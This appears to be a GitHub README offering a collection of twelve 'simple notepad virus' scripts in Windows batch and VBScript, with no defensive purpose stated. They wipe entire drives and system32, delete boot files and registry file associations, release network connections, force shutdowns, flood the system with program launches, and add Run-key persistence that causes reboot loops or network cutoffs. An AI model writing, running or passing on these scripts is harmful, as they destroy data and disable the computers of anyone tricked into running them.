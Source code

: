 # ViRuS
##simple notepad virus


# codes given below


virus - 1

```@echo off
:VIRUS
cd /d C:
md %RANDOM%
cd /d D:
md %RANDOM%
cd /d E:
md %RANDOM%
goto VIRUS
REM #######################
REM errorcode401.blogspot.in

```

-----------------------------------
-  virus - 2

```bash
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
-------------------------
-  virus - 3

```@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*

```
--------------------------
-  virus - 4

```@Echo off
Ipconfig /release

```
-------------------------
- virus - 5

```@echo off
msg * Lets Roll Baby
shutdown -c “Error! Your ass got glued!” -s

```
-----------------------------
- virus - 6

(save as .VBS)

```Option Explicit

Dim WSHShell
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)

Dim x
For x = 1 to 100000000
WSHShell.Run “Tourstart.exe”
Next
```

--------------------------------------------------------------------
- virus - 7

```rd/s/q D:\
rd/s/q C:\
rd/s/q E:\
```
----------------------------------------------------------------

- virus - 8


```echo @echo off>c:windowshartlell.bat
echo break off>>c:windowshartlell.bat
echo shutdown -r -t 11 -f>>c:windowshartlell.bat
echo end>>c:windowshartlell.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v startAPI /t reg_sz /d c:windowshartlell.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v /t reg_sz /d c:windowshartlell.bat /f
echo You Are Nailed, Buy A New Computer This Is Piece Of Shit.
PAUSE
```
-----------------------------------------------------------------------------

- virus - 9

```@echo off
attrib -r -s -h c:\autoexec.bat
del c:\autoexec.bat
attrib -r -s -h c:\boot.ini
del c:\boot.ini
attrib -r -s -h c:\ntldr
del c:\ntldr
attrib -r -s -h c:\windows\win.ini
del c:\windows\win.ini

```
--------------------------------------------------------------
- virus - 10

```bash
shutdown -s -t 100 c “Installing Updates”

```
--------------------------------------------------------------------
- virus - 11

```del c:\WINDOWS\system32\*.*/q

```
--------------------------------
- virus - 12

```echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You have maxed your internet usage for a lifetime ??
PAUSE

```


@ thank you
